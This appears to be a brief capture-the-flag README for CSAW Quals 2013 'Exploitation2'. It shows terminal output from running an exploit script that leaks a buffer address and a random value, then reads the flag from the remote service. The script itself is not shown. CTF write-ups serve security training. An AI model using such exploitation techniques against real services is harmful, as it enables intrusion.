 # CSAW Quals 2013


### Exploitation2

```
$ python exploit.py
ptr_buf : 0xff962bac
rand    : 0x2ff2e3f1
2048
gdb?
cat flag
THIS_IS_A_FLAG
exit
*** Connection closed by remote host ***
```